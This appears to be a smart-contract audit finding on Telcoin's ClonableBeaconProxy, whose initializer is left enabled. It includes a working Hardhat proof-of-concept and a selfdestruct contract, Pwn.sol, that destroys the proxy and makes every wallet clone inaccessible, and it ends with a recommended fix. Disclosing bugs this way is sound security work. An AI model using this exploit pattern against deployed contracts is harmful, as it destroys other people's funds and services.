 Scrawny Blonde Robin

high

# Not disabling the initializer in `ClonableBeaconProxy` allows an attacker to destroy the beacon proxy

## Summary

`ClonableBeaconProxy` can be destroyed by an attacker, rendering all the implementations inaccessible (since the ProxyFactory contract uses the same `ClonableBeaconProxy` for deploying all implementations).

## Vulnerability Detail

The `ClonableBeaconProxy` uses an `initialize` function instead of a constructor since it's intended to be used through the EIP-1167 minimal proxy. On [this](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/contracts/factories/ProxyFactory.sol#L108) line, the `ClonableBeaconProxy` is initialized through the minimal proxy, making it initialized in the minimal proxy but not in itself. However, since `_disableInitializers` is not called in the constructor of `ClonableBeaconProxy`, an attacker could call the `initialize` function directly on `ClonableBeaconProxy` along with the parameters which could lead to the destruction of the `ClonableBeaconProxy` contract.

## Impact

`ClonableBeaconProxy` can be destroyed and all the implementations that uses it becomes inaccessible.

## Code Snippet
Below is a PoC that demonstrates that contract instances created by the `create` function of ProxyFactory can get inaccessible if an attacker destroys the `ClonableBeaconProxy` .

### PoC
```js
    it("destroy cloneable proxy", async () => {
      // deploying a wallet clone
      let tx: any = await factory.create([SALT], ["0x"]);
      tx = await tx.wait();
      const deployedClone = tx.logs[2].args[0];
      const wallet = await ethers.getContractAt("TestWallet", deployedClone);

      // calling `getTestSelector` on the wallet should return `0xf8a8fd6d`
      expect(await wallet.getTestSelector()).to.equal("0xf8a8fd6d");

      // destroying the proxy
      const pwn: Pwn = await ethers.deployContract("Pwn");
      await proxy.initialize(pwn.target, "0xdd365b8b"); // 0xdd365b8b is function sig of `pwn()`

      // the wallet got inaccessible
      try {
        await wallet.getTestSelector();
      } catch (e: any) {
        expect(e.message).to.include("BAD_DATA");
        return;
      }
      expect(true).to.be.false; // this will never be reached
    });
```

<details>

<summary>This is the entire Hardhat test file for the above test case.</summary>

```ts
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { expect } from "chai";
import { ethers } from "hardhat";
import {
  ProxyFactory,
  ClonableBeaconProxy,
  TestWallet,
  Pwn,
} from "../../typechain-types";

describe("ProxyFactory", () => {
  const SALT = ethers.keccak256(ethers.toUtf8Bytes("SALT"));
  const DEPLOYER_ROLE = ethers.keccak256(ethers.toUtf8Bytes("DEPLOYER_ROLE"));

  let deployer: SignerWithAddress;
  let factory: ProxyFactory;
  let implementation: TestWallet;
  let proxy: ClonableBeaconProxy;

  before("setup", async () => {
    [deployer] = await ethers.getSigners();

    const ProxyFactory_Factory = await ethers.getContractFactory(
      "ProxyFactory",
      deployer
    );
    factory = await ProxyFactory_Factory.deploy();

    const TestWallet_Factory = await ethers.getContractFactory(
      "TestWallet",
      deployer
    );
    implementation = await TestWallet_Factory.deploy();

    const ClonableBeaconProxy_Factory = await ethers.getContractFactory(
      "ClonableBeaconProxy",
      deployer
    );
    proxy = await ClonableBeaconProxy_Factory.deploy();

    await factory.initialize(deployer, implementation, proxy);
  });

  describe("Create", () => {
    before("setup", async () => {
      await factory.grantRole(DEPLOYER_ROLE, deployer);
    });

    it("destroy cloneable proxy", async () => {
      // deploying a wallet clone
      let tx: any = await factory.create([SALT], ["0x"]);
      tx = await tx.wait();
      const deployedClone = tx.logs[2].args[0];
      const wallet = await ethers.getContractAt("TestWallet", deployedClone);

      // calling `getTestSelector` on the wallet should return `0xf8a8fd6d`
      expect(await wallet.getTestSelector()).to.equal("0xf8a8fd6d");

      // destroying the proxy
      const pwn: Pwn = await ethers.deployContract("Pwn");
      await proxy.initialize(pwn.target, "0xdd365b8b"); // 0xdd365b8b is function sig of `pwn()`

      // the wallet got inaccessible
      try {
        await wallet.getTestSelector();
      } catch (e: any) {
        expect(e.message).to.include("BAD_DATA");
        return;
      }
      expect(true).to.be.false; // this will never be reached
    });
  });
});
```

</details>

<details>

<summary>This is Pwn.sol that is used in the attack</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.24;

contract Pwn {
    function pwn() external {
        selfdestruct(payable(address(0)));
    }
    
    function implementation() external view returns(address) {
        return address(this);
    }
}
```

</details>

## Tool used

Manual Review

## Recommendation

Call `_disableInitializers` inside the constructor of `ClonableBeaconProxy`.

```solidity
constructor() {
        _disableInitializers();
}
```
This attack can also be prevented by making sure to call the `initialize` function directly on the `ClonableBeaconProxy` but still, using the above measure is considered one of the best practices.
